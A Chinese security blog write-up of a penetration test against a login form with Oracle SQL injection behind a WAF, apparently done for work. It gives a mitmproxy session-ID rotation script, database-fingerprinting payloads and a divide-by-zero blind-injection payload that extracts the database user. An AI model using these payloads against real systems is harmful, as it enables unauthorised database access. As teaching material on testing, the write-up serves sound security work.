# 记一次奇妙的Oracle注入绕WAF之旅-先知社区

> **来源**: https://xz.aliyun.com/news/17819  
> **文章ID**: 17819

---

## 0x01 一个登陆框

上班时遇到了一个登陆框看着这个复古的界面，于是上手除了admin123456之外顺手点了个'

于是弹出了一条有意思的报错



这就有意思了，毕竟已经很久没在登陆框遇到sql注入了，当我想当然的认为万能密码可以秒时，事情出现了一丢丢的不对劲

试了一下几个常见的万能密码发现进不去，这就有意思了，于是准备跑一下sqlmap。

## 0x02 准备工作

首先抓包后进行简单分析。

发现请求包中存在一个参数sessionID，这个参数不能复用，每次发包需要从服务器重新获取，而且有效期特别短

有点麻烦，可以在本地起个代理，帮我请求并替换数据包里的sessionID

这一步操作可以用mitmproxy来实现

mitmproxy 是一个控制台工具，可以实时拦截、修改 HTTP/HTTPS 请求和响应，并且支持用 Python 脚本对 HTTP 通信进行修改

这里我们直接拜托GPT菩萨帮我写一个简单的脚本

```
from mitmproxy import http
import requests
import json

AUTH_URL = "http://target.com/"
TARGET_VALUE = "__daisukidayo__"

def fetch_sid():
    """获取 sid"""
    try:
        response = requests.post(AUTH_URL, data={"authType": "md5"}, headers={"Content-Type": "application/x-www-form-urlencoded"})
        if response.status_code == 200:
            data = json.loads(response.text)
            sid = data.get("sessionID", "default_sid")
            print(f"[*] Retrieved SID: {sid}")
            return sid
    except Exception as e:
        print(f"[!] Error fetching SID: {e}")
    return "default_sid"

def request(flow: http.HTTPFlow):
    """拦截 HTTP 请求并修改"""
    sid = fetch_sid()
    if flow.request.method == "POST":
        content_type = flow.request.headers.get("Content-Type", "")
        if "application/x-www-form-urlencoded" in content_type:
            body = flow.request.text
            modified_body = body.replace(TARGET_VALUE, sid)
            flow.request.text = modified_body
            print(f"Modified POST Data: {body} -> {modified_body}")
```

把请求包里的sessionID改为脚本中指定的TARGET\_VALUE，随后启动代理

```
mitmdump -s proxyyy.py --listen-host 127.0.0.1 --listen-port 18080
```

到此为止一切就绪，可以开始测试了

## 0x03 注入

首先尝试sqlmap

直接寄，那就只能手注了

先来一手万能密码

```
admin'or 1=1 --+
```

虽然不能直接登陆，但是也没报错，说明代码成功闭合了，可以继续往下操作

那么第一步自然是确认数据库类型

由于是jsp站点，首先就排除了mssql

再加上注入点双引号不敏感，有点想当然的以为是mysql了，fuzz了一波payload之后发现不对劲了

不仅给我把ip给ban了，得到的结果也是各种报错想了一下，把注释符换成了#

结果报错了

```
admin'or 1=1 #
```

那这大概率不是mysql了，用xor试一下

```
admin'OR'a'^'a'=1--+
```

都报错了，说明不支持^运算，也就是实锤不是mysql了，市面上数据库就那么几个，要么pg要么oracle

想了下既然前面的1=1可以用,那么就可以用like和ilike来判断剩下的可能性

构造payload

```
admin'OR'a'like'a'--+
admin'OR'a'ilike'a'--+
```

基本上可以确定是oracle了，这个时候自己也变得不安起来了，毕竟保不齐也可能是什么没见过的国产数据库

不过事已至此也只能继续往下测了

也是到了整个注入中最麻烦的步骤，找到可以用的函数

特别是盲注，看不到报错信息，不仅要考虑报错是不是因为函数不可用，也要考虑可能存在的语法错误

还是比较幸运，首次尝试就发现ascii是可以用的

```
admin'or ascii('a')=1--+
```



ascii('a')从结果上来说是不等于1的，但并没有语法错误，所以并不会报错

admin'or ascii('a')=1--+相当于admin'or false --+

到这一步为止，构建测试语句的基本要素就已经集齐了，剩下的就是尝试把数据搞出来证明漏洞的危害了

因为oracle数据库是不支持除0的

可以考虑先从测试环境开始构造payload

```
https://livesql.oracle.com/ords/
```

因为oracle数据库除0会报错所以我们可以利用这个特性结合ascii函数来构造payload



这样就得到了最基本的测试payload

```
admin'or+(1/(ascii('a')-97))=1--+
```



剩下的就是找出任何可以证明注入可被利用的数据了

在一番痛苦的摸黑探索下，发现user是可用的，没有被拦

于是构造新的payload



迫不及待的丢到yakit上爆破一波

Payload：

```
admin'or+(1/(ascii(user)-{{int(90-110)}}))like 1--+
```



剩下的操作思路也就大同小异了，不过这个站不仅卡还会ban ip，只能一个函数一个函数的去摸索，也就不继续浪费时间，直接写完报告收工了～～

## 0x04 总结

整个测试过程如下

从登陆框开始 --> 构造1=1 成功闭合 --> %23不能用猜测不是mysql --> xor 再次确认不是mysql --> 尝试like&&ilike 排除pg --> 函数过滤 fuzz --> 想到 /0报错 --> 找到user

虽然写出来后并没有多长的内容，但实际上也是消耗了很长的时间。时间主要也是花在了fuzz和寻找可用函数的过程中。尤其是在盲注的情况下，每一个报错的原因都可能是语法错误、函数不可用，或者是代码限制和规则拦截，这都需要通过不断的尝试来找到正确的payload。

说到底还得靠更多的实战经验来积累自己对注入的理解，毕竟看不明白还能学能搜，但想不到的东西那就真是想不到了。

这里也是要大大的感谢英勇无敌帅气机智的方师傅大力帮助，助我拿下此处sql注入
